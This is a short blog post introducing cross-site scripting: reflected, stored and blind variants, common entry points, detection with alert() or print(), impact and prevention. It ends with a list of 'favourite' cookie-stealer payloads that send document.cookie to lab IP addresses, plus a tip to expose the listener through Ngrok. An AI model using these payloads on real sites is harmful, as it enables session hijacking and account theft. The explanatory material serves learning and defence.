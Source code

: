 ```yaml
---
title: "XSS Vulnerabilities Made Eazyypezyyy"
date: 2024-04-08T23:15:00+07:00
slug: XSS
category: blog 
summary:
description: 
cover:
  image:
  alt:
  caption: 
  relative: true
showtoc: true
draft: false
---
```


# How Stored XSS Vulnerabilities Can Lead to Cookie Theft 😶‍🌫️

## What is XSS?
Cross-Site Scripting (XSS) is a common web application vulnerability that allows attackers to inject malicious scripts into web pages viewed by users. XSS can lead to various security issues, including session hijacking and data theft. To protect against XSS, developers should implement robust input validation techniques and utilize security encoding libraries, which help sanitize HTML and prevent these attacks.

## Types of XSS Attacks

- **Reflected XSS**: Imagine an attacker sends you a malicious link, perhaps in a phishing email. When you click that link, your browser sends your cookies to the attacker, giving them access to your session. It’s like opening the door to your house because someone knocked and said they were your friend!

- **Stored XSS**: This one is a bit sneakier. Here, the malicious script is stored directly in the website’s database. When you or anyone else visits that page, the script runs automatically. This typically happens when the site doesn’t clean up user input properly. If a user submits a dangerous payload in a sign-up form, and the site doesn’t sanitize it, it’ll execute every time someone visits the affected page.

- **Blind XSS**: In Blind XSS, the attacker hides their payload on the server, often through forms or feedback submissions. The tricky part? The payload doesn’t execute until an admin or another user views it later. So, it’s like setting a trap that only someone else will trigger!

## Common Entry Points for XSS
You’ll often find XSS vulnerabilities in places like:

- Registration forms
- Comment sections
- Search fields (This one is my fav! 😊)

## Testing for Blind XSS
To check for Blind XSS, you can inject simple scripts, like alerts, into input fields. If the script doesn’t run right away, it might mean it’s a Blind XSS vulnerability, waiting for someone else to activate it.

## The Cookie Theft Connection
One of the main goals of Blind XSS is to steal cookies. Attackers might encode the cookie in Base64 and send it to their server. For example, they could use `btoa()` to send the cookie data over.

## How to Detect XSS
Detecting XSS can be as simple as injecting a payload that runs JavaScript in your browser. The classic method is using the `alert()` function. However, since Chrome has put some restrictions in place, if that doesn’t work, try using `print()` instead.

## The Impact of XSS
The impact of XSS really depends on the context:

- In a public-facing app with no sensitive data, the effect might be minor.
- But if you’re dealing with sensitive information, like banking details, it can be severe.
- If an attacker gains access to an account with admin privileges, they could compromise the entire application.

## Preventing XSS Attacks
So, how can we keep our applications safe from XSS? Here are some key strategies:

- **Filter Input**: Always sanitize user input as soon as it arrives.
- **Encode Output**: Make sure data is properly encoded before it’s displayed.
- **Use Security Headers**: Implement headers to enhance security.
- **Content Security Policy (CSP)**: Use CSP to limit where content can be loaded from.

## My Favorite XSS Payloads for Cookie Theft and Keylogging
/* Use Ngrok to expose your local server since the provided IP addresses are private and not accessible from the internet. */

// Cookie Stealer Payloads

```javascript
<script>var i=new Image(); i.src="http://10.10.14.19:8000/?cookie="+btoa(document.cookie);</script>
<script>fetch('http://10.10.14.19:8000/?cookie=' + btoa(document.cookie));</script>
<script>window.location='http://10.10.14.4:8002/cookie='+document.cookie;</script>
<script>var myimg = new Image(); myimg.src='http://10.10.14.4:8002/q?=' + document.cookie;</script>
<script>document.location='http://10.10.14.19:8000/?c='+document.cookie;</script>
